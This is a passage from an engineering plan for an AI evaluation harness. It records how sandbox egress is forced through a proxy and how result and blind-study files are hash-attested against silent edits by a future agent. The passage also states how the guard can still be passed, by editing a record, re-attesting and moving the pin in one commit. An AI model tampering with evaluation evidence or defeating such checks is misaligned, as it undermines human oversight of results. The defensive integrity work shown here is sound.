  [08](../../research/08-auth-identity-and-secrets.md) §8.1 item 4 already lists default-deny egress
  at the host among the hard requirements, and neither had ever been checked against the pivot
  ([14](../../research/14-architecture-synthesis.md) **C-17**). So what is owed is **ratification of a
  requirement already on the books**, drafted at **OD-12 above**, rather than the invention of one.
  ~~**Three sub-questions remain genuinely open** and the bullet stays here until they are answered:
  whether the target's safe-method operations can induce outbound requests, which is what the
  guarantee is actually conditional on and is unmeasured (**U-44**); whether v1's shell executes at
  all under OD-10's disposition table, which §2.6 currently answers two incompatible ways; and what a
  self-hosted operator may be *required* to configure, given that any widening of the allowlist for
  ordinary convenience restores the channel in full.~~ ✅ **RESOLVED 2026-08-03 — OD-12 is ratified
  and OD-13 applies the amendment, and the three sub-questions land in three different states rather
  than one, which is the distinction this plan keeps insisting on.** **Answered:** v1's shell
  executes. The ladder stops classifying shell entirely, because the mandatory proxy sees a
  shell-originated request and a runtime-originated one identically — the question was framed as a
  choice between two readings and the resolution removes the premise both shared. **Answered, with a
  cost:** a self-hosted operator is required to run the proxy and to route the sandbox through it,
  and is *not* required to install a CA or maintain a certificate pin, because re-origination avoids
  TLS interception; any widening of the allowlist is a D-15 review object. **Still open and
  unmeasured:** **U-44**, whether the target's safe-method operations can induce outbound requests.
  That is a per-target property with a zero-model-spend measurement and a fail-closed default, and it
  is the one thing the mechanism cannot settle for itself.
- ~~**The twelve `verifier-vs-judge` run directories are held by ruling alone, and nothing mechanical
  holds them.**~~ ✅ **RESOLVED 2026-08-11, later the same day — the owner ruled that the pinning cost
  named at the end of this bullet is the feature rather than the objection, and a bytes-level
  attestation now holds them.** The `preserved-evidence` check in `tools/check_corpus.py` attests all
  **59** files under `results/` — the 58 in the twelve run directories plus `NEUTRALISATION.md` — by
  SHA-256, from `tools/preserved_evidence.json`, a witness held **outside** the tree it attests
  because a digest stored beside its own bytes is the self-report this bullet is about. **The same
  plant this bullet reports now fails**: the `E8`→`E19` rewrite in
  `results/20260803T092721-final-verify/manifest.json` is reported as `edited` and named by path,
  where before it left every gate green. **Nothing under `results/` or `adjudication/` was added,
  renamed or edited to install it**, and `harness_fingerprint` still reads `6c58910ec3fd9c36`, which
  was verified rather than reasoned about: `FINGERPRINT_FILES` is a closed sixteen-name tuple and not
  a glob, so a file arriving beside the unit cannot enter it.
  **The residual, stated rather than closed:** the guard makes a second edit **visible**, not
  impossible. An author who edits a record, rebuilds the attestation and moves the pin in one commit
  passes, and nothing in a repository can prevent that. What it forbids is the *silent* case, and it
  forbids it in two acts that cannot collapse into one — `--reattest` writes the record and prints
  the digest, a human pins it, and `neutralise_decision.py` does not import either half. An
  attestation the editing tool refreshes attests nothing, which is this bullet's own defect one layer
  down. **`adjudication/` is attested as a second unit since later the same day**: the ruling in front
  of the owner priced twelve directories, and the ten files of the completed blind study were not in
  it — an omission rather than a decision, as the owner has since recorded. The bullet below carries
  the extension.
  *(Read the rest of this bullet as the state on 2026-08-11 before the ruling.)*
  Discovered 2026-08-11 while taking **OD-31**, and established by planting the edit
  rather than by reading the code: an identifier rewrite in
  `results/20260803T092721-final-verify/manifest.json` left `freeze.py --verify` reading *intact*,
  `neutralise_decision.py --check` passing and `check_corpus.py` at zero errors. A manifest **records**
  `harness_fingerprint`; **no hash covers a manifest's own bytes**, and `corpus_freeze.json` pins the
  `ceiling-test` corpus under a different harness rather than anything under `results/`. The three
  earlier occasions the frozen-sites ruling protected a historical observation all held for the same
  reason this one does — a convention that a careful reader honours. **The exposure is a future agent
  editing a dated record silently and no gate saying so**, which is precisely the failure mode
  `dry-run-verdict` was built at the repository boundary to catch for a different class of defect.
  Whether that boundary should also carry a bytes-level attestation over `results/` is an owner call
  with a real cost: it pins twelve directories against every future correction, including the next
  neutralisation.
- ~~**`adjudication/` is preserved evidence on the same ruling and is not attested.**~~
  ✅ **RESOLVED 2026-08-11, later the same day — the owner recorded the omission as an oversight rather
  than a decision, and the attestation was extended to cover it.** The bullet above names
  `harness/verifier-vs-judge/adjudication/` alongside `results/` in what OD-31 does not license, and its
  ten files are a completed blind study — `blind/verdicts.md`, `sealed/key.json`, `comparison.json` and
  the scripts that produced them. `verifier-vs-judge-adjudication` attests all **10** of them by SHA-256
  from `tools/preserved_evidence_adjudication.json`, and the estimate that extending it was
  mechanically free held: one unit added to `preserved_evidence.units`, ten digests, and no new code.
  **It is a second unit rather than a widening of the first.** One pin per tree keeps a correction's
  blast radius equal to its subject — merged, ratifying a correction to a run directory would also
  ratify, in the same digest and without saying so, anything that had moved under `adjudication/` in the
  same window. `--reattest` reports the unmoved unit as already matching, so the ratifier is told which
  tree changed. The merge is also unavailable mechanically: `attest.measure` walks one tree recursively
  and unfiltered, so a single unit over both would be rooted at `verifier-vs-judge/` and would cover the
  live harness beside them.
  **Each of the first unit's conditions was met again for this one, by running rather than by argument.**
  A plant in `adjudication/sealed/key.json` — one blind-study `oracle_outcome` inverted from `pass` to
  `fail` — is reported as `edited` and named by path, while `freeze.py --verify` goes on reading
  *intact* over it, reproducing the near-miss this guard exists to close on a second tree. Deleting the
  whole tree is reported as `removed` against the tree, once, with `skipped` empty: scope is keyed on the
  attestation and not on the tree, which is the defeat the first version of the guard had and which was
  confirmed absent here by deleting the directory rather than by reading the code. A rebuild under a
  live plant leaves the gate red as `unratified` rather than green, so the two acts do not collapse for
  this unit either. **Nothing under `adjudication/` was edited to install it**: every plant was
  restored and restoration was verified by presence, all ten digests and the directory's git tree
  object matching the pre-probe reading. `harness_fingerprint` still reads `6c58910ec3fd9c36` and
  `freeze.py --verify` still reads intact, both verified rather than assumed.
  **The residual is the first unit's residual and is not narrowed:** the guard makes a second edit
  visible, not impossible.
